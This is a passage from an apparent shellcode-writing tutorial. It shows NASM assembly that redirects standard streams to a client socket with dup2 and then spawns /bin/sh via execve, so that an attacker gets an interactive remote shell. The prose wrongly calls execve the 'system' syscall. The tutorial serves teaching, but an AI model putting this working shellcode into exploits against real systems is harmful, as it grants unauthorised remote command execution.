 ```nasm
    ; 2nd argument of dup2(): file descriptor to redirect
    mov rsi, rcx

    ; call dup2()
    syscall

    pop rcx
    dec rcx
    jns DuplicateFileDescriptor
```

<figcaption class="figure-caption">Redirection of input, output, and errors to the client socket</figcaption>

### Spawning a Shell

The final step consists of calling the syscall `system`, in order to execute a shell e.g., `/bin/sh` or `/bin/bash`.

Once the shellcode spawns the shell, thanks to the previous redirection of `stdin`, `stdout`, and `stderr`, the attacker will have an interactive prompt, as if they were in front of the terminal.

It means the client will be able to execute system commands, read output, and possible error messages.

```nasm
SpawnSystemShell:

    ; clear RAX register (zero-sign extended)
    xor eax, eax

    ; NULL terminator for the string below
    push rax

    ; 3rd argument of execve: envp (in this case a pointer to NULL)
    mov rdx, rsp

    ; string "/bin//sh"
    mov rbx, 0x68732f2f6e69622f
    push rbx

    ; 1st argument of execve: executable to run
    mov rdi, rsp

    ; 2nd argument of execve: array of arguments passed to the executable
    push rax

    push rdi
    mov rsi, rsp

    ; syscall execve
    add eax, 0x3b

    ; invoke execve
    syscall
```

